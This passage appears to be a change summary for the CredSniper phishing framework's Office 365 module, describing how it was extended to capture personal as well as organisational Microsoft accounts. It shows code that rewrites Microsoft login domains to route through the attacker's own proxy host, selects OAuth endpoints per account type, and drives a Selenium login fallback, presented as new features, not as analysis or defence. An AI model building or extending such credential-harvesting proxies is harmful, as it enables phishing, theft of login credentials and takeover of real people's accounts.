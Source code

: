 **For Organizational Accounts:**
```python
microsoft_url = f"https://login.microsoftonline.com/common/oauth2/authorize?client_id=4765445b-32c6-49b0-83e6-1d93765276ca&response_type=code&redirect_uri=https://www.office.com/&scope=openid%20profile&login_hint={self.user}"
```

### 3. Enhanced URL Rewriting
Added support for personal account domains in the proxy URL rewriting:

```python
replacements = [
    ('https://login.microsoftonline.com/', f'https://{current_host}/proxy/'),
    ('https://login.live.com/', f'https://{current_host}/proxy/'),
    ('"https://login.live.com', f'"https://{current_host}/proxy'),
    ("'https://login.live.com", f"'https://{current_host}/proxy"),
    ('https://account.live.com/', f'https://{current_host}/proxy/'),
    ('https://account.microsoft.com/', f'https://{current_host}/proxy/'),
]
```

### 4. Updated Selenium Fallback
Modified the Selenium automation to use appropriate endpoints:

```python
if is_personal:
    legacy_url = f"https://login.live.com/login.srf?username={email}"
else:
    legacy_url = f"https://login.microsoftonline.com/login.srf?username={email}"
```

### 5. Proxy Target Selection
Enhanced the proxy catch-all method to route to correct domains:

```python
if is_personal:
    target_url = f"https://login.live.com/{path}"
else:
    target_url = f"https://login.microsoftonline.com/{path}"
```

## Key Changes Made

### Files Modified:
1. `CredSniper/modules/office365/office365.py`
   - Added personal account detection logic
   - Implemented dynamic OAuth endpoint selection
   - Enhanced URL rewriting for personal domains
   - Updated Selenium fallback for personal accounts
   - Added logging for account type detection

### New Features:
1. **Automatic Account Type Detection**: Identifies personal vs organizational accounts
2. **Dynamic OAuth Configuration**: Uses appropriate endpoints and client IDs
3. **Enhanced Proxy Support**: Handles both login.live.com and login.microsoftonline.com
4. **Improved Selenium Fallback**: Works with both account types
5. **Better Logging**: Indicates which account type is being processed
